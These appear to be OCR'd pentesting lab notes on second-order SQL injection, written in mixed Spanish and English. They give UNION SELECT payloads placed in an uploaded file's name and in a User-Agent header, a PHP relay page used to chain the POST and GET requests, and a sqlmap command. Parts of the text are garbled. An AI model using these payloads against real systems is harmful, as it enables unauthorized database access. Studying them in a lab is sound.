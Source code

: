 nuestro escenario:

```
[>] Injection
Name of the file uploaded, e.g. ' union select @version; -- -
** via POST request **
```

```
[*] Execution
view.php?file={our_payload}
** via GET request **
```

Abajo:

```
sqlmap (2nd order) works only GET to GET i.e. we beed a python plugin
burp needs a java plugin
```

Altos:

```
out php script

1. GETs the payload in input
2. Generates the respective image payload (POST req)
3. Generates the respective GET req, to view page and reflect the result client-side
```

* So we create a php page, opened with apache2 server to execute payloads

Ejemplo:

```
hacker.site/payload.php?payload='UNION SELECT USER(); -- -
```

Termina el trabajo con SQLMAP

```sql
sqlmap -u 'http://hacker.site/payload.php?payload=x' --technique=U --banner

--flush-session --batch --banner
# test the time difference between Time-based and Union-based
# Time 0 is 3min long, Union is 2sec
```

Tenemos que pre-elaborar el formulario antes de presentar la solicitud.

## Lab Solutions

### SQLi 1

PoC:

```bash
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: ' UNION SELECT user(); -- -
```
